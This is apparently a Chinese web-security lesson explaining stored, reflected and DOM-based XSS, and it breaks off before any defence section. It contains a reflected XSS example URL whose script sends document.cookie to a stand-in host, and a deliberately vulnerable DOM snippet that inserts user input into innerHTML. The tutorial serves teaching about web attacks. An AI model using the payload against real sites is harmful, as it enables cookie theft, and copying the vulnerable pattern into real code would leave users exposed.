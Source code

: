 # class11 - Web安全



在网络时代下，Web 安全随处可见并且危害极大，Web 安全问题也越来越受到重视。本节课将讲述Web中的攻击和防御

## XSS

利用开发者盲目信任客户提交的内容来实现的工具，恶意攻击者往 Web 页面里插入恶意 Script 代码，当用户浏览该页面时，嵌入 Web 里面的 Script 代码会被执行，从而达到恶意攻击用户的目的。他的特点是：

1. 一般来讲它难以从UI上被感知到，即偷偷运行脚本
2. 他习惯用cookie和token来窃取用户信息
3. 它可以自身绘制UI节目，诱骗用户点击或者填写表单等

以下是几种XSS攻击的类型：

- 存储型XSS

它利用接口过滤不严等问题，在提交内容时插入代码，将这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie。

例如：你将一段可以获取当前cookie并且发送到黑客服务器的代码存储到博客中，当用户访问你的博客时，就会执行这段代码，你的数据就被盗取了。

- 反射型XSS

这类攻击需要欺骗用户自己去点击链接才能触发XSS代码，一般容易出现在web 页面。反射型XSS大多数是用来盗取用户的Cookie信息。

比如：如果某个网站的页面用类似这样的结构来渲染数据，注意这个逻辑是由服务器完成的，可能的场景是，你输入一些数据，然后把数据传到服务器，服务器返回给你一个带有 content 参数的界面来渲染你看到的页面

```html
http://www.xxx.com?content='xxxx'
<div> 渲染获取content <div>
```

如果我们在content的内容里写入一些脚本，那么系统解析的时候就会执行这些脚本，那么如果这个脚本的作用是获取 cookie并且发送到服务器，你的cookie就被获取了：

```html
http://www.xxx.com?content=<script>window.open("www.bbb.com?param="+document.cookie)</script>
```

如果黑客现在将这个链接发送给你，并且你已经登录了 www.xxx.com 这个网站且已经保存了 cookie，那么当你点开 XSS 攻击的链接的时候，你的cookie就被盗取了

- DOM型XSS

Dom型xss类似于反射型xss，但是不同点在于DOM 型的 XSS 主要是由客户端的js脚本通过 DOM 动态地输出数据到页面上，比如一个页面的逻辑是这样的，你输入一些数据，然后当你点击页面的时候，通过js获取你输入的数据，然后展示出来：

```html
<div id="xssd_main">
    <script>
        function domxss(){
            var str = document.getElementById("text").value;
            document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";
        }
    </script>
    <input id="text" name="text" type="text"  value="" />
    <input id="button" type="button" value="click me!" onclick="domxss()" />
    <div id="dom"></div>
</div>
```
